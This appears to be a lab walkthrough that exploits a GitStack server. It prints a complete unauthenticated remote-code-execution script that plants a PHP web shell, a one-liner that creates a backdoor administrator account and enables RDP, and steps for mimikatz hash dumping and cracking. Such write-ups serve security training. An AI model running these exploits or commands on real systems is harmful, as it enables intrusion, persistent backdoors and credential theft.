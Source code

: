 ![](../../attachment/041f91201ec5ecdb299bac0aac1dec1b.png)

Using this [exploit](https://github.com/snix0/GitStack-RCE-Exploit-Shell/blob/master/exploit.py)
![](../../attachment/d9d8c224566180ae1cb9a42e0a8dc2b9.png)
Ip and command are changed so that we can execute our custom command.
```python
# Original exploit code based on PoC from Kacper Szurek (https://security.szurek.pl/gitstack-2310-unauthenticated-rce.html)
import requests
from requests.auth import HTTPBasicAuth
import os
import sys

# Change IP to target
ip = '10.200.101.150'

# What command you want to execute
command = "ping -c 2 10.50.102.111"

repository = 'rce'
username = 'rce'
password = 'rce'
csrf_token = 'token'

user_list = []

print "[+] Get user list"
try:
	r = requests.get("http://{}/rest/user/".format(ip))
	user_list = r.json()
	user_list.remove('everyone')
except:
	pass

if len(user_list) > 0:
	username = user_list[0]
	print "[+] Found user {}".format(username)
else:
	r = requests.post("http://{}/rest/user/".format(ip), data={'username' : username, 'password' : password})
	print "[+] Create user"
	
	if not "User created" in r.text and not "User already exist" in r.text:
		print "[-] Cannot create user"
		os._exit(0)

r = requests.get("http://{}/rest/settings/general/webinterface/".format(ip))
if "true" in r.text:
	print "[+] Web repository already enabled"
else:
	print "[+] Enable web repository"
	r = requests.put("http://{}/rest/settings/general/webinterface/".format(ip), data='{"enabled" : "true"}')
	if not "Web interface successfully enabled" in r.text:
		print "[-] Cannot enable web interface"
		os._exit(0)

print "[+] Get repositories list"
r = requests.get("http://{}/rest/repository/".format(ip))
repository_list = r.json()

if len(repository_list) > 0:
	repository = repository_list[0]['name']
	print "[+] Found repository {}".format(repository)
else:
	print "[+] Create repository"

	r = requests.post("http://{}/rest/repository/".format(ip), cookies={'csrftoken' : csrf_token}, data={'name' : repository, 'csrfmiddlewaretoken' : csrf_token})
	if not "The repository has been successfully created" in r.text and not "Repository already exist" in r.text:
		print "[-] Cannot create repository"
		os._exit(0)

print "[+] Add user to repository"
r = requests.post("http://{}/rest/repository/{}/user/{}/".format(ip, repository, username))

if not "added to" in r.text and not "has already" in r.text:
	print "[-] Cannot add user to repository"
	os._exit(0)	

print "[+] Disable access for anyone"
r = requests.delete("http://{}/rest/repository/{}/user/{}/".format(ip, repository, "everyone"))

if not "everyone removed from rce" in r.text and not "not in list" in r.text:
	print "[-] Cannot remove access for anyone"
	os._exit(0)	

print "[+] Create backdoor in PHP"
r = requests.get('http://{}/web/index.php?p={}.git&a=summary'.format(ip, repository), auth=HTTPBasicAuth(username, 'p && echo "<?php system($_POST[\'a\']); ?>" > c:\GitStack\gitphp\exploit.php'))
print r.text.encode(sys.stdout.encoding, errors='replace')

print "[+] Starting interactive shell"

while True:
    cmd = raw_input("$ ")

    if cmd == 'exit':
        print "Exiting shell..."
        sys.exit(0)
    else:
        r = requests.post("http://{}/web/exploit.php".format(ip), data={'a' : cmd})
        print r.text.encode(sys.stdout.encoding, errors='replace')

```
We can now execute the exploit:
```
python2.7 exploit.py
```
![](../../attachment/14d607b9ac7866f9bb82d277877e556a.png)
We now have command execution. And we are already `nt authority\system`

This machine has an active firewall so attempts to transfer files were futile.

Running this oneliner to get rdp access:
```
net user hacker Hacker123! /add & net localgroup administrators hacker /add & net localgroup "Remote Desktop Users" hacker /add & reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f & reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fAllowToGetHelp /t REG_DWORD /d 1 /f & netsh firewall add portopening TCP 3389 "Remote Desktop" & netsh firewall set service remoteadmin enable
```
Now connecting:
```
xfreerdp /u:hacker /p:'Hacker123!' /v:10.200.101.150 /cert-ignore /compression /auto-reconnect /drive:/home/kali/Documents/Windows,Windows +clipboard
```
![](../../attachment/6132ddf2361f3a6c3af3064df3d5910b.png)
And we mounted our folder with windows tools:
![](../../attachment/1a0c5e25241f25077c4969aa00579708.png)

We can copy needed files to Downloads folder and add our user to Remote Management Users group:
```
net localgroup "Remote Management Users" hacker /add
```
![](../../attachment/1cbd42a8bdf9048aaa10fc989b8cefd8.png)
now running mimikatz as Administrator by right-clicking:
![](../../attachment/7d3d8c2b5ee4b6bcecc43533fca35dc3.png)
We get the hash for Administrator.

We also get hashes for Thomas:
![](../../attachment/e17e3ade8ff3b779b6b249d1589a9998.png)

We can try cracking in crackstation:
![](../../attachment/7996540d1d14592757f05a1afa8f3f49.png)
Thomas hash can be cracked. Administrator hash was not cracked.

